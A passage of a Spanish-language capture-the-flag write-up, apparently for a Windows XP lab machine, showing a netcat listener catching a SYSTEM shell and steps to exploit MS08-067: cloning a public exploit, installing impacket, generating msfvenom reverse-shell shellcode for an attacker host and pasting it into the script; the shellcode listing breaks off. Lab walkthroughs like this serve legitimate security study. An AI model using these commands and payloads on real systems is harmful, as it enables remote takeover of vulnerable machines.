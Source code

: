 Generamos un listener por el puerto escogido y obtenemos acceso al sistema como usuario `NT Authority/System`

```bash
  ❯ rlwrap nc -lvnp 4564
  listening on [any] 4564 ...
  connect to [10.10.14.6] from (UNKNOWN) [10.10.10.4] 1034
  Microsoft Windows XP [Version 5.1.2600]
  (C) Copyright 1985-2001 Microsoft Corp.
  
  hostname
  hostname
  legacy
  C:\WINDOWS\system32>
```
## EXPLOTACION MS08-067

Vamos a realizar la explotación de nuestro segundo CVE, para este caso haremos uso del script de github de [andyacer](https://github.com/andyacer/ms08_067) _para esta explotación es necesario tener instalado python2_.
  
```bash
  ❯ git clone https://github.com/andyacer/ms08_067
  ❯ cd ms08_067/
```
  
Creamos un ambiente virtual de python2 para poder ejecutar el script sin presentar errores por librerías sin soporte.
 
```bash
  ❯ virtualenv -p python2 ms08_067
  ❯ source ms08_067/bin/activate
```
  
Ahora que nos encontramos en el ambiente virtual, procedemos a descargar la librería impacket y pycrypto requerida para ejecutar el exploit.
  
```bash
  pip install impacket
  pip install pycrypto
```
  
Al igual que en la anterior explotación, por medio de `msfvenom` generamos una reverse shell, pero en este caso generamos un shellcode el cual vamos a reemplazar directamente en el script de explotación

```bash
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=4564 EXITFUNC=thread -b "\x00\x0a\x0d\x5  c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

```bash
  vim ms08_067_2018.py
  
  **Nos ubicamos en la linea 44 y reemplazamos el shellcode
  
   shellcode=(
    "\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
    "\xf3\xf1\xc3\xeb\x83\xee\xfc\xe2\xf4\x0f\x19\x41\xeb\xf3\xf1"
    "\xa3\x62\x16\xc0\x03\x8f\x78\xa1\xf3\x60\xa1\xfd\x48\xb9\xe7"
    "\x7a\xb1\xc3\xfc\x46\x89\xcd\xc2\x0e\x6f\xd7\x92\x8d\xc1\xc7"
    "\xd3\x30\x0c\xe6\xf2\x36\x21\x19\xa1\xa6\x48\xb9\xe3\x7a\x89"
    "\xd7\x78\xbd\xd2\x93\x10\xb9\xc2\x3a\xa2\x7a\x9a\xcb\xf2\x22"
    "\x48\xa2\xeb\x12\xf9\xa2\x78\xc5\x48\xea\x25\xc0\x3c\x47\x32"
    "\x3e\xce\xea\x34\xc9\x23\x9e\x05\xf2\xbe\x13\xc8\x8c\xe7\x9e"
    "\x17\xa9\x48\xb3\xd7\xf0\x10\x8d\x78\xfd\x88\x60\xab\xed\xc2"
    "\x38\x78\xf5\x48\xea\x23\x78\x87\xcf\xd7\xaa\x98\x8a\xaa\xab"
    "\x92\x14\x13\xae\x9c\xb1\x78\xe3\x28\x66\xae\x99\xf0\xd9\xf3"
    "\xf1\xab\x9c\x80\xc3\x9c\xbf\x9b\xbd\xb4\xcd\xf4\x0e\x16\x53"
```